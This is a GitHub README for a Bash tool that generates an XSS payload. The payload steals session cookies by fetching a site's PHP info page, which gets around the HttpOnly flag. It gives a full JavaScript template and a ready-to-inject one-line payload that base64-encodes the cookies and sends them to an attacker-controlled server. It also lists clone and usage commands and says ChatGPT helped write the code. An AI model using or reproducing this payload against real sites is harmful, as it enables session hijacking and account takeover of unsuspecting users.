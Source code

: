 # Context
This is a payload generator designed in Bash to exfiltrate user cookies through the PHP info page bypassing the HttpOnly flag during XSS exploitation. The researcher who discovered this HttpOnly bypass method is [Aleksi Kistauri](https://github.com/ls4cfk) and you can see the original post here

https://aleksikistauri.medium.com/bypassing-httponly-with-phpinfo-file-4e5a8b17129b

As you can see, the payload works correctly but it can be improved to send only the cookies and not all the HTML code that comes after it. That's why I decided to design this script and write this post on my blog

[https://hackcommander.github.io/posts/2022/11/12/bypass-httponly-via-php-info-page/](https://hackcommander.github.io/posts/2022/11/12/bypass-httponly-via-php-info-page/)

to try to explain this bypass in depth, adding some additional considerations.

# What does the script do?

This script allows you to generate an XSS payload to exfiltrate user cookies through the PHP info page. The Javascript code template is

```js
<script>
  fetch(php_info_page_url)
    .then(response => response.text())
    .then(data => {
      // Define the starting and ending strings
      const startString = '<tr><td class="e">HTTP_COOKIE </td><td class="v">';
      const endString = '</td></tr>';

      // Find the index of the starting string
      const startIndex = data.indexOf(startString) + startString.length;

      // Find the index of the ending string
      const endIndex = data.indexOf(endString, startIndex);

      // Get the substring between the starting and ending strings
      const cookies = data.substring(startIndex, endIndex);

      // Encode the cookies in base64
      const encodedCookies = btoa(cookies);

      // Send the encoded cookies to the web server
      fetch(attacker_web_server_url + '?encodedCookies=' + encodedCookies, {
        method: 'GET'
      });
    });
</script>
```
where php_info_page_url is the url of the PHP info page of the website vulnerable to XSS and attacker_web_server_url is the url of the attacker web server, where the encoded cookies are sent. The payload is returned in one line and without comments, ready to be injected in HTML context.

# Installation

This repository doesn't require any installation, you only need to clone the repository

```bash
git clone https://github.com/HackCommander/PHP-info-cookie-stealer.git
```

# Usage

This is an example of use


```bash
./generate-javascript-payload.sh http://vulnerable-server-to-xss.com/phpinfo.php http://attacker-web-server.com/
```

where `http://vulnerable-server-to-xss.com/phpinfo.php` would be the url of the PHP info page of the website vulnerable to XSS and `http://attacker-web-server.com/` would be the url of your web server, where the encoded cookies are sent.


```js
<script>fetch('http://vulnerable-server-to-xss.com/phpinfo.php').then(response=>response.text()).then(data=>{const startString='<tr><td class="e">HTTP_COOKIE </td><td class="v">';const endString='</td></tr>';const startIndex=data.indexOf(startString)+startString.length;const endIndex=data.indexOf(endString,startIndex);const cookies=data.substring(startIndex,endIndex);const encodedCookies=btoa(cookies);fetch('http://attacker-web-server.com/'+'?encodedCookies='+encodedCookies,{method:'GET'});});</script>
```

This XSS payload is designed to be executed in HTML context but you can adapt it to execute in the context you need. The important thing is the Javascript code between the script tags.

# Additional comments

This tool has been developed with the help of [ChatGPT](https://chat.openai.com/chat). After a very constructive conversation, we came to the following conclusion

![ChatGPT](./images/chatGPT.png)

This is the Javascript code template that fills the script. The Bash code generation only required a few more questions.
